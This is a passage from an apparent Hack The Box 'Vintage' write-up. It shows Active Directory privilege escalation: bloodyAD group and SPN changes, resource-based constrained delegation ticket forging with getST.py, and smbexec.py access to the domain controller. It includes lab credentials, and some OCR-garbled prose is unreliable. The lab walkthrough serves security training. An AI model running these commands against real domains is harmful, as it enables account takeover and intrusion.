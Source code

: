 password for user c.neri_adm is Uncr4ck4bl3P4ssW0rd0312
![[VINTAGE BLOODHOUND6.png]]
The next step is to add C.NERL_ADM to DELEGATEDADMINS because delegatedadmins can access all services of dc01 on behalf of any account. Just use (serviePrincipleName)
BBCD ABUSE is fine, but deleRatedadmins. itself must have an SPN •Otherwise kde. will report an error. G.Neri_adm. itself does not have this attribute
Therefore, we need to find a way to add this attribute. Once this attribute is added, we will have a way to use the controlled account to access the service of DCO1. Since DCO1 is a domain controller, this target machine is a single domain, so it can access services on all domains. Of course, this cannot directly obtain root permissions, but it can access the CIFS of DC01. This is an early version of smb. We can use root access permissions to read root.txt in c$ (powershell cannot be executed, which is equivalent to obtaining the Take high privileges for activities in smb).
However, trying to add an SPN to C.Neri adm itself will fail

We can use C.Neri to add SPN to serviceaccount and then use C.Neri_adm to move to delegated admins group, so you can use this serviceaccount to implement RBCD ABUSE (this
serviceaccount should be svc_sql Because we only know its password)
```
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"  
[+] SVC_SQL added to DELEGATEDADMINS
```

```
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake"
```

```
bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'C.Neri' -p Zer0the0ne -k --dc-ip 10.10.11.45 remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```
we can now get admin.ccache
```
getST.py -spn "cifs/dc01.vintage.htb" -impersonate administrator -dc-ip 10.10.11.45 -no-pass -k vintage.htb/svc_sql:Zer0the0ne
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

```
export KRB5CCNAME=administrator@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```
If we try login smbclient it doesnt work, we will then use L.Bianchi_adm
```
getST.py -spn "cifs/dc01.vintage.htb" -impersonate L.Bianchi_adm -dc-ip 10.10.11.45 -no-pass -k vintage.htb/svc_sql:Zer0the0ne
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating L.Bianchi_adm
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ export KRB5CCNAME=L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```
I will now use smbexec.py which works and I'm able to get the root flag 
```
smbexec.py vintage.htb/L.BIANCHI_ADM@dc01.vintage.htb -k -no-pass
```